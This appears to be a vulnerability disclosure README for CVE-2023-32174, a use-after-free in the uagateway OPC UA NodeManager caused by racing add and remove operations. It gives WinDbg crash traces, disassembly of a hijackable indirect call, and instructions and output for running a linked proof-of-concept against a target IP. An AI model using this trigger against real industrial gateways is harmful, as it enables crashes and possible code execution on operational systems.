


# CVE-2023-32174: NodeManagerOpcUa Use-After-Free Remote Code Execution Vulnerability

<p align='center'>

</p>

## High-level overview
The vulnerability is a use-after-free that gets triggered when two threads are racing against each other and doing an adding & remove operation on the address space.

<p align='center'>

</p>

## Root Cause Analysis

I have found this bug by intuition so I haven't really pinpointed in details where the issue is. It looks like to me there is an issue related to locking somewhere and it results in a UAF condition. When running the PoC, you end up seeing different type of crashes and some might actually look not super interesting as they appear as NULL pointer dereference like the below:
```
0:053> g
(239c.174c): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
uagateway+0x14eea5:
0054eea5 8b4e08          mov     ecx,dword ptr [esi+8] ds:002b:00000028=????????
```

But you should also witness other ones looking like:
```
0:054> g
(1bec.754): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
uagateway+0x144cd1:
00544cd1 8b4e5c          mov     ecx,dword ptr [esi+5Ch] ds:002b:289b6e0c=????????
```

The one that I wanted to exploit is the below one, where the program is about to invoke a virtual method on the UAF'd object which in theory you could reclaim and hijack control flow through the indirect call:
```
0:035> g
(a5c.a74): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
uagateway+0x4556dc:
008556dc 8b16            mov     edx,dword ptr [esi]  ds:002b:21b70fdc=????????

0:038:x86> u .
uagateway+0x4556dc:
008556dc 8b16            mov     edx,dword ptr [esi]
008556de 50              push    eax
008556df 8b4244          mov     eax,dword ptr [edx+44h]
008556e2 8bce            mov     ecx,esi
008556e4 ffd0            call    eax
```

## PoC
See [PoC/postauthuaf.cc](PoC/postauthuaf.cc). To compile the project yourself, just load up the `postauth-uaf.sln` solution in Visual Studio. I've also included a release [x86](binaries/x86/postauth-uaf.exe)/[x64](./binaries/x64/postauth-uaf.exe) binaries with PDBs if you don't want to compile it yourself. I haven't ported the socket part to Linux, so you should throw from a Windows machine.

- Turn on PageHeap for `uagateway.exe`
- Attach WinDbg with `windbg -pn uagateway.exe`
- Run the PoC:
```
> postauth-uaf.exe 192.168.1.137
Throwing against 192.168.1.137:48050..
Establishing a connection..
Establishing a connection..
Sending hello..
Sending hello..
Received acknowledge message:
Received acknowledge message:
  Acknowledge_t
    Version: Uint32_t(0)
    ReceiveBufferSize: Uint32_t(8192)
    SendBufferSize: Uint32_t(8192)
    MaxMessageSize: Uint32_t(2097152)
    MaxChunkCount: Uint32_t(256)
Sending open secure channel request..
  Acknowledge_t
    Version: Uint32_t(0)
    ReceiveBufferSize: Uint32_t(8192)
    SendBufferSize: Uint32_t(8192)
    MaxMessageSize: Uint32_t(2097152)
    MaxChunkCount: Uint32_t(256)
Sending open secure channel request..
Received open secure channel response..
Sending get endpoints request..
Received open secure channel response..
Sending get endpoints request..
Received get endpoints response..
Sending create session request..
Received get endpoints response..
Sending create session request..
Received create session response..
Sending activation session request..
Received create session response..
Sending activation session request..
Received activate session response..
Received activate session response..
```
- `uagateway.exe` should crash; here's a crash example (the UAF can manifest in other ways as well):
```
0:056> g
(f20.12a4): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
uagateway+0x12466c:
0052466c 8b8ea0000000    mov     ecx,dword ptr [esi+0A0h] ds:002b:20de0f68=????????
```
